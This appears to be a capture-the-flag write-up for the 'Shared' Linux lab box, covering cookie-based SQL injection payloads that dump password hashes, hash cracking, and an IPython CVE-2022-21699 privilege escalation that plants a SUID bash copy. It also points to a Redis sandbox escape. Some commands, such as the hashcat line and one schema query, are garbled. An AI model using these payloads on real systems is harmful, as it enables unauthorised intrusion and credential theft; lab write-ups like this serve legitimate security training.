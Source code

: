 # Shared
### Medium linux box

##### Start with an nmap scan:
![alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FsixO74ZQmWWjbatdV7WQ%2Fuploads%2FvunymQaGuIELhAVfpFNU%2Fnmapscan.jpg?alt=media&token=36d6168c-845f-4150-be68-ecfc1a51dd68 "nmap results")

##### Visit port 80 and navigate to the checkout page. There's a URL encoded cookie named `custom_cart=`. Decode the cookie and note it's format: `<Item>:<Quantity>`

##### The cookie ended up being vulnerable to SQLi. Portswigger's sqli courses helped a lot here. URL encode the payload.

#### `' UNION SELECT 1 -- -` No values
#### `' UNION SELECT 1,2 -- -` No values
#### `' UNION SELECT 1,2,3 -- -` Values are reflected!
![alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FsixO74ZQmWWjbatdV7WQ%2Fuploads%2FiMA8il58YnoiSfSBNhwv%2FBURPCOOKIESQL.jpg?alt=media&token=ca2f7673-855a-4e73-9e13-626d989795d6)

### SQLi payloads:
##### Find current database:
#### `' UNION SELECT 1,database(),3 -- -`
##### Get tables in checkout database:
#### `'UNION SELECT 1,group_concat(table_name),3 from information_schema.tables WHERE table_schema='checkout' -- -`
##### Enumerate columns in user table from the checkout database:
#### `' UNION SELECT 1,group_concat(column_name),3 from information_schema.tables WHERE table_schema='user' -- -`
##### Get values from the user table:
#### `' UNION SELECT 1,group_concat(id, ':', password),3 from checkout.user -- -`

##### Finally, we get a hash that we can crack! I used hashcat
#### `hashcat -a -0 -m -0 <hash> <wordlist>`

##### ssh into the james_mason account with the cracked password

### Privilege Escalation
##### Transfer pspy64 and linpeas to the machine to see running processes and find sensitive files.
##### We find ipython and an interesting file, `/opt/scripts_review`. It reveals a cronjob being every minute by `dan_smith`
```bash
/bin/sh -c
/usr/bin/pkill ipython;
cd opt/scripts review/ && /usr/local/bin/ipython
```
##### Looking more into ipython, I found CVE-2022-21699. "Arbitrary code execution vulnerability in IPython that stems from IPython executing untrusted files in CWD. This vulnerability allows one user to run code as another"
#####   1. Based on the cronjob ipython is executed at `/opt/scripts_review` directory where we have write access
#####   2. We have to create `/opt/scriptsreview/profile_default` and `opt/scripts_review/profile_default/startup`
#####   3. Create a python script to set `dan_smith` SUID bit to `/bin/bash` for us to escalate priveleges at `/opt/scripts_review/profile_default/startup`
#### Make ascript that creates a directory and another python script that executes `script.sh`
```bash
james_mason@shared:/tmp$ cat script.sh
mkdir -m 777 /opt/scripts_review/profile_default
mkdir -m 777 /opt/scripts_review/profile_default/startup
echo 'import os; os.system("cp /bin/bash /tmp/danbash; chmod u+s /tmp/danbash")' > /opt/scripts_review/profile_default/startup/foo.py
james_mason@shared: /tmp$ chmod +x script.sh
james_mason@shared: /tmp$ ./script.sh
```
![alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FsixO74ZQmWWjbatdV7WQ%2Fuploads%2FiHCOT3FpQ65fr8Iq6a5t%2Fimage.png?alt=media&token=188fb7a8-1648-49d5-bfdd-b4b9e7dc80cb "script.sh")

##### Keep running `script.sh` because there's a cronjob running as root that deletes everything in `scripts_review`. Wait for the cronjob to execute and create `danbash`. Then execute `danbash`

```bash
james_mason@shared: /tmp$ ./danbash -p
```
##### From there you can copy the ssh key for `dan_smith` and ssh into the account for a better shell
![alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FsixO74ZQmWWjbatdV7WQ%2Fuploads%2FRENhkyRf5bpOe4mSigPK%2Fimage.png?alt=media&token=d22f0e92-ee4f-48ae-bfa5-dd01ac9eb785 "id_rsa")

### Redis Lua Sandbox Escape and RCE to get root
##### Upload and run linpeas and you'll find a readable file in `/usr/local/bin/redis_connector_dev`
##### It's a ELF file, when executed it connects to `redis-cli` using a password. It will then execute an `INFO` command
##### Transfer `redis_connector_dev` to your machine. Run a nc listener and you should get a password

##### Helpful guide to the exploit below
[title](https://github.com/vulhub/vulhub/blob/master/redis/CVE-2022-0543/README.md)






